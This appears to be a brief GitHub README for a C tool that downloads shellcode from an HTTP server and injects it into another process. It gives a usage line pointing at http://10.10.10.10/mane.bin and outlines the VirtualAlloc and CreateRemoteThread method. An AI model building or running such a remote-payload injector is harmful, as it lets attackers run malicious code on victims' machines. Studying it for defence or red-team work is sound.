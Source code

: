 # Load From HTTP with C

Inject shell code from HTTP server, Using C Programming Language.

Usage: `InjectFromHTTPWithC.exe PID <http://10.10.10.10/mane.bin>`

## Technical

Send a HTTP Request, receive binary shellcode, bit by bit copy into buffer.

When receive finish, copy buffer into `VirtualAlloc` and using `CreateRemoteThread` to inject process.

